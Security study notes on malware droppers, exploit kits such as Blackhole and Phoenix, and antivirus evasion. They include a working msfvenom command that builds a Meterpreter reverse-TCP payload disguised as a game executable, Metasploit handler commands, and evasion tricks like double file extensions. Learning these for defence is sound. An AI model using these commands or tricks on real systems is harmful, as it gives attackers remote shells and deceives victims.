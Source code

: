 ##### DROPPER EXAMPLES
- msfvenom
- nullmixer
- Github 63 malware Dropper repositories

#msfvenom can be used to create a trojan dropper / stager/ downloader . It payload platform specific to the intended target. It has a build-in obfuscation features to evade detection by the target's antivirus. It replaces the old MSFencode feature
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=hostname LPORT=4444 -f exe -a x64 -o /root/Desktop/awesome-game.exe


\\ dropper connect to its handler, and then downloads the stage (real exploit) and attacker has a setup of handler in metasploit waiting to connected by msfvenom.

metasploit
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST $hostname
show options
run
```

#### Exploit kit
- AKA Crimeware kit
- A platform you can use to create and deliver exploits and payloads
- Examples:
	- Infinity Exploit Kit
		- Uses vulnerabilities of Mozilla Firefox, internet explorer and opera to install malware on a target computer
		- Can also exploit known vulnerability in web browser add-ons such as Java and Adobe flash
	- Phoenix Exploit Kit
		- Designed to inject drive-by downloads into compromised websites
		- Websites visitors would automatically download the malware
	- Blackhole exploit kit
		- Designed to be used in hacked or malicious sites
		- Exploits a variety of web-browser vulnerabilites
	- Crimepack
		- Attackers use it to load malicious software onto hacked web sites
	- Bleeding life
		- Exploits built-in Java functionality
		- Social engineers the unsuspecting visitor to run a malicious Java applets
	- Github (142) Exploit kit repositories

#### Technique to Evade Antivirus
- Encrypt the malware
- Break the malware file into multiple pieces and zip into a single file
- Write your own malware, and embed it in a application
- Change the malware' syntax
	- Convert an .exe to a VB script
	- Change an .exe extension to doc.exe, ppt.exe, pdf.exe as windows hides the file extension by default
- Change the content of the malware using a hex editor
	- change the checksum and encrypt the file
- Don't use pre-made malware downloaded from the web
- Antiviruses can detect these with no trouble
- GitHub lists 61 (antivirus) evasion repositories
